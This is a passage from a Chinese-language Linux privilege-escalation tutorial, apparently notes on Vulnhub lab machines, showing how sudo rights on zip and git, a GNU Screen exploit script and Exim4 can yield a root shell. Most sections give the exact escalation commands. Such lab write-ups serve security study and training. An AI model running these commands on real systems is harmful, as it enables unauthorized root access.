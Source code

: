 **方法一**
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```
![](./assets/1671608451279-907f74da-ce2e-4bae-a154-4248ee7abc7e.jpeg)

**方法二**<br />先创建一个 liuwx 文件，然后在将它压缩为zip文件，最后使用unzip-command来执行bash命令从而提权：
```
touch liuwx
sudo zip /tmp/liuwx.zip /home/sarang/liuwx -T --unzip-command="sh -c /bin/bash"
```
tmp为可写目录，所以压缩包放在tmp下；<br />![](./assets/1671608451284-0664889c-6785-49fe-9766-4dc2fd3a15df.jpeg)


## 10.5、GIT提权
git命令被分配了root权限<br />![](./assets/1671608748911-8d80aa6b-f4bb-433d-8e87-8620141432b8.jpeg)

**方法一**<br />利用git来提权
```
sudo git help add
!/bin/bash
```
![](./assets/1671608748703-d5002bd4-3fd2-48ce-87d8-d45f07508e56.jpeg)
![](./assets/1671608748680-1bd24304-8c1c-4ae1-af35-ef59602df09b.jpeg)
粘贴代码到此处，然后回车完成提权

**方法二**<br />输入命令`sudo git help config`之后直接在出现的help界面，输入 `!/bin/bash`，成功提权<br />![image-20220110150747962.png](./assets/1652256147381-4ba75de9-1344-46fe-b760-478e97c06b42.png)
![image-20220110150813588.png](./assets/1652256150056-bb1cf5cd-3f00-4a24-b073-75e2c86e5050.png)

实例参考链接：[DC-2](https://www.yuque.com/xmtxsec/network_security/vulnhub-dc-2)


## 10.6、Screen提权
Screen是一款由GNU计划开发的用于命令行终端切换的自由软件。用户可以通过该软件同时连接多个本地或远程的命令行会话，并在其间自由切换。GNU Screen可以看作是窗口管理器的命令行界面版本。它提供了统一的管理多个会话的界面和相应的功能。<br />在Screen环境下，所有的会话都独立的运行，并拥有各自的编号、输入、输出和窗口缓存。用户可以通过快捷键在不同的窗口下切换，并可以自由的重定向各个窗口的输入和输出。<br />![](./assets/1671608748751-fc29a490-9b3e-467c-b88b-9e02de6f67f8.jpeg)

将脚本文件转换为linux格式
```
dos2unix 41154.sh
```

传到靶机下，更改权限后运行<br />![](./assets/1652256568936-b35f4e40-17b9-47ff-a693-49efe2bdcadb.png)

实例参考链接：[DC-5](https://www.yuque.com/xmtxsec/network_security/vulnhub-dc-5)


## 10.7、Exim4提权
Exim4是在剑桥大学开发的另一种消息传输代理（MTA），用于在连接到Internet的Unix系统上使用。 尽管exim的配置与sendmail的配置完全不同，但是可以安装Exim代替sendmail。<br />![](./assets/1671608749963-692d060c-4d19-4e11-af9c-b8c712f9600a.jpeg)
